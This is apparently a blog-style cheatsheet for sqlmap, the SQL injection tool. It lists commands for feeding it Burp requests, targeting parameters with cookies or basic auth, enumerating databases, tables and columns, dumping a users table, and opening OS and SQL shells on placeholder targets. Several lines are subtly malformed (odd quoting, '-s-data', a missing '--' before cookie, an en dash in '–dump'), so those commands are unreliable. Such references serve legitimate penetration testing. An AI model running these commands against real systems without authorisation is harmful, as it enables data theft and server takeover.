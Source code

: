 ```yaml
---
title: Sqlmap Cheatsheet  
date: 2022-12-04 22:35:00 +00:00
categories: [cheatsheet, tools]
tags: [tools]     # TAG names should always be lowercase
---
```




# Burp + sqlmap 

Save a request in burp (right click > save to file) 

Run with sqlmap 

```
sqlmap -r sqlmap.txt --batch
```

Specify param to exploit

```
sqlmap -u "http://target_server/param1=value1&param2=value2" -p param1
```

Use POST requests

```
sqlmap -u "http://target_server" --data=param1=value1&param2=value2
```

Access with authenticated session

```
sqlmap -u "http://target_server" --data=param1=value1&param2=value2 -p param1 cookie='my_cookie_value'
```

Basic authentication

```
sqlmap -u !http://target_server! -s-data=param1=value1&param2=value2 -p param1--auth-type=basic --auth-cred=username:password
```

Evaluating response strings

```
sqlmap -u "http://target_server/" --string="This string if query is TRUE"

sqlmap -u "http://target_server/" --not-string="This string if query is FALSE"
```

List all databases at the site

```
sqlmap -u "http://testsite.com/login.php" --dbs
```

List all tables in a specific database

```
sqlmap -u "http://testsite.com/login.php" -D site_db --tables
```

List all columns in a table

```
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns
```

Dump the contents of a DB table

```
sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump
```



# Shell 

Get OS Shell
```
--os-shell
```

Get SQL Shell

```
--sql-shell
```
